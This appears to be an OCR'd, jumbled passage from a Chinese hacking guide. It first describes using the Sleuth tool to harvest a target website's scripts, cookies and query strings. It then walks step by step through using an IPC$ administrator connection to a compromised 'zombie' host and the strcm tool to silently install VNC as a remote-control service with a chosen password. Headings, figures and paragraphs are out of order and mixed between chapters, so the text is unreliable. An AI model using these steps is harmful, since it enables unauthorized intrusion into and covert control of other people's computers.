





我们在下方的地址栏中输入要检测的网站的网址，点击地址栏右边的蓝色箭头图标，程序就会自动地进行检测了，检测到的 Links 信息缺省会显示在最下方的小窗口中，同时，在上边的空白窗口中也会出现对方的网页。图 3 为检测到的 Scripts 脚本信息，图 4 检测到的 Cookie 信息，图 5 为检测到的 QueryStrings 信息，这些检测到的信息对于网站管理员来讲，是非常重要的，同样，对于入侵者来说，也是很有用的。当然，前提是你必须要懂得相应的程序设计语言。

## 致命前奏

在 Spider 选项中，我们在 Start Url 栏中输入对方的网址，Description 栏也是，点击“Start”按钮，程序就会自动地进行检测了。检测到的信息会显示在左侧的窗口中，见图 7。双击那个图标，在右方的大窗口中就会显示出 Cookie 了，见图 8。



图 5



图 7

在 Sleuth 地址栏的上方，有五个选项，分别为 Browser、Source、Intercept、Spider、Notes；其中 Browser 就是默认的网页浏览，Source 则是查看网页文件的源代码，我们通过下方的地址栏切换到想要查看的页面文件上，然后点击 Source，会出现一个“Frames Layout”的小菜单，小菜单下方的 URL 中就是我们刚才选中的那个要查看的网页文件，点击“Done”，会出现 Sleuth 的一个出错信息，意思为 Application 定义或者 Object 定义错误，不用管它，确定后，在 Sleuth 最上方的窗口中就会显示出源代码了，见图 6。



图 8

关于 Sleuth 的具体使用还不止这些，各位在以后的使用过程中就会慢慢地体会到的。



图 6

Intercept 选项的作用主要是配置 Request，就不细讲了。Spider 的中文解释是蜘蛛，在这个程序中，到底该解释成什么，我也不知道。

## 破解潜入

许多网络安全爱好者会将远程控制软件与特洛伊木马程序归为一类，可实际上它们是不同的，虽然就以功能及目的来讲，它们几乎完全一样。许多的远程控制软件可以说都是光明正大存在的，它们不用担心自己会被杀病毒软件查杀，就像本章节中讲到 VNC 及 DameWare 一样，甚至于在 Red Hat Linux 系统中集成了 VNC。而所有的特洛伊木马程序都是被杀病毒软件所“深恶痛绝”的，而最新版本的杀病毒软件基本上可以查杀绝大多数的特洛伊木马。因此为了你的安全，我们建议你随时将自己使用的杀病毒软件升级到最新版本。

## 第二十二章

## 2.1 VNC

### 一、VNC 简介

VNC 是一款基于 Windows 的远程控制软件，与 pcAnywhere 一样它在网络中使用非常广泛，能运行于 Linux、Solaris、Windows 9x/2000/NT 及 Mac 等系统中，默认端口为 5900，客户端主程序 vncviewer.exe，服务端主程序 winvnc.exe。VNC 有点类似 Win2000 的终端服务，相对于其他的远程控制软件，主要体现了五个优点：

- 1. VNC 远程控制时，客户端的任何异常事故不会对服务端造成影响，也就是说，如果你正在用 VNC 远程控制一台主机，你突然死机了，再用 VNC 连接时，可以继续进行刚才的操作。
- 2. VNC 的控制端很小，而且不需要任何安装，是居家旅行时的必备良药；而且 VNC 有 Java 的控制端，不需要用任何其他工具，用浏览器就可以直接控制，比如 IE 或 Netscape。
- 3. VNC 实现了真正的跨平台，你可以在 Unix 下控制 Windows，或者是在 Windows 下控制 Unix，不依赖操作平台是 VNC 最大的特色和优点。
- 4. 一个桌面可以同时被多个用户使用，类似 Win2000 终端管理中的连接功能，交流非常方便，可做教学之用。
- 5. VNC 符合 GNU 风格，开放源代码，这是最大的好处，当然 VNC 的 exploit 在 packetstorm 里也可以找到。

### 二、远程安装方法

原料：IPC$ 肉鸡一台（拥有管理员权限）  
工具：strcm 和 VNC

在这里 strcm 和 VNC 各自承担的工作不同。在与远程主机建立连接的情况下，strcm 利用这个通道将 VNC 远程安装到主机上。

解压完文件如图 1。



图 1

现在打开命令提示符，与你的肉鸡建立 IPC 连接，见图 2。现在已经和主机建立了通道，可以用 strcm 安装 VNC 了！呵呵，是不是有点激动呀！

运行 strcm.exe，先在“远程计算机名称或地址”下面填上远程主机的 IP；在“操作”下面选择查看，见图 3。

## 远程控制

## 秘密潜入

点击执行，在弹出的对话框中点确定，见图 5。随后会出现设定 VNC 参数的对话框，见图 6。





在口令选项里面填上登录 VNC 的密码，比如是 123456，然后在“安装服务”前打钩。点确定就开始安装了。



然后点击“查找”选择“vnc.rcm”，见图 4。

稍等一会儿，如果你网速快的话，几秒钟就 OK 了。安装完毕后会弹出一个对话框，见图 7。





输入你刚才设置的密码 123456，点击确定，开始登录主机！控制界面见图 8。



